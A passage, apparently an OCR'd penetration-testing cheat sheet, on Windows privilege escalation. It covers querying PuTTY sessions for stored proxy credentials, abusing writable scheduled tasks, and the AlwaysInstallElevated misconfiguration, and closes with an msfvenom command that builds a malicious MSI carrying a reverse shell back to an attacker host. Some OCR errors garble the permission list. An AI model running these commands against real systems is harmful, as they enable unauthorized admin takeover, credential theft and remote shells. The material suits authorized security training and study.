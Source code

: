 ```cmd
reg query HKEY_CURRENT_USER\Software\SimonTatham\PuTTY\Sessions\ /f "Proxy" /s
```

#### Retrieve credentials from other softwares

## Other Quick Wins

#### Scheduled Tasks
Looking into scheduled tasks on the target system, you may see a scheduled task that either lost its binary or it's using a binary you can modify
```cmd
schtasks /query /tn vulntask /fo list /v
```
`/tn taskname` specify a taskname, the taskname is different from the executed filename
`/fo list` display the output as list  
`/v` verbose  


To check file permissions
```cmd
icacls file.txt
```
If possible, you can pop a reverse shell
- (M) means Modify
- (?) means Readable
- (?) means Executable
- (F) means Full Access
- (AD) means Add Directory
- (WD) means Write Directory

If permissions are set, user can trigger the task
```cmd
schtasks /run /tn TASKNAME
```
#### Always Install Elevated
Windows intaller Files (.msi files) are used to install applications on the system.  
They usually run with the privilege level of the user that starts it.  
However, these can be configured to run with higher privileges from any user account.  
This could potentially allow us to generate a malicious MSI file that would run with admin privileges.

This method requires two registry values to be set. You can query these from the command line using the commands below.
```cmd
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer
```

A .msi file can be created using msfvenom
```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKING_10.10.76.45 LPORT=LOCAL_PORT -f msi -o malicious.msi
```
You have to transfer the file  
Make sure that a Metasploit Handler is set and runs correctly
